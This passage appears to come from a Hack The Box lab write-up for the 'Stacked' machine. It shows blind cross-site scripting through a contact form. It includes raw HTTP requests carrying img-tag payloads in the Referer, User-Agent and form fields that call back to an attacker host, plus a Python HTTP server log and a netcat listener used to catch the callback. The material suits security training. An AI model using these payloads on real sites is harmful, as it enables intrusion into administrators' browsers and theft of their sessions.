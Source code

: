 ```http

fullname=tgihf+full+name&email=tgihf%40stacked.htb&tel=111111111111&subject=tgihf+subject&message=tgihf+message
```

```http
HTTP/1.1 200 OK
Date: Sat, 19 Mar 2022 21:15:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 54
Connection: close
Content-Type: text/json; charset=utf8

{"success":"Your form has been submitted. Thank you!"}
```

The data on this form is presumably rendered in whoever looks through the submission's browser. Thus, it may be vulnerable to XSS.

The backend is filtering XSS attempts on the form data effectively. However, it doesn't appear to be applying that filter to the request headers. The `Referer` header must also be rendered to the user, as injecting it with an XSS payload that contains a link to an attacker-controlled web server seems to trigger a request.

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: <img src="http://10.10.14.61/ua">
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 258
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <img src="http://10.10.14.61/referer">

fullname=%3Cimg+src%3D%22http%3A%2F%2F10.10.14.61%2Fname%3E%3C%2Fimg%3E&email=tgihf%40stacked.htb&tel=111111111111&subject=%3Cimg+src%3D%22http%3A%2F%2F10.10.14.61%2Fsubject%3E%3C%2Fimg%3E&message=%3Cimg+src%3D%22http%3A%2F%2F10.10.14.61%2Fmsg%3E%3C%2Fimg%3E
```

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.140.39 - - [19/Mar/2022 18:10:41] code 404, message File not found
10.129.140.39 - - [19/Mar/2022 18:10:41] "GET /referer HTTP/1.1" 404 -
```

Fingerprinting the XSS victim's browser:

```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
```
